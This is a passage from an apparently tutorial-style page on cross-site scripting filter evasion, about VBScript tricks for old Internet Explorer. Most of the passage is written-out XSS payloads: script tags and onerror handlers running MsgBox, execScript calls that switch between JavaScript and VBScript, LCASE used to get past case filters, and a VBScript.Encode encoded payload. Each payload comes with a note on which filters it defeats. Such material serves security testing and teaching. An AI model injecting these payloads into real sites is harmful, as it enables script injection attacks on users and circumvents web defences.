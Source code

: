 All characters encoded = hard to detect.

---

## 🧪 Using VBScript (IE Only)

Modern browsers don't support this anymore, but older **Internet Explorer** versions do.

```html
<script language=vbs>MsgBox 1</script>
<img onerror="vbs:MsgBox 1" src=a>
```

🧠 Why it worked:

* IE could execute VBScript.
* Filters that target only JavaScript fail completely.

### Notable VBScript Properties:

* **No case sensitivity** (`MSGBOX`, `MsgBox`, `msgbox` all work)
* **Brackets optional**
* **Use `+1` instead of space**

```html
<img onerror=MsgBox+1 language=vbs src=a>
```

Filters that expect brackets and quotes get wrecked here.

---

## 🔁 Mixing JavaScript & VBScript

For full chaos, you can **cross-call** languages:

```html
<script>execScript("MsgBox 1", "vbscript")</script>
<script language=vbs>execScript("alert(1)")</script>
```

🧠 Why it works:

* `execScript()` lets you hop between JS ↔ VBScript
* VBScript can construct lowercased JS (`LCASE()`) to bypass case-enforcement:

```html
<SCRIPT LANGUAGE=VBS>EXECSCRIPT(LCASE("ALERT(1)")) </SCRIPT>
```

---

## 🧬 Encoded Scripts (IE Only)

Microsoft had a custom script encoding system:

```html
<img onerror="VBScript.Encode:#@~^CAAAAA==\ko$K6,FoQIAAA==^#~@" src=a>
```
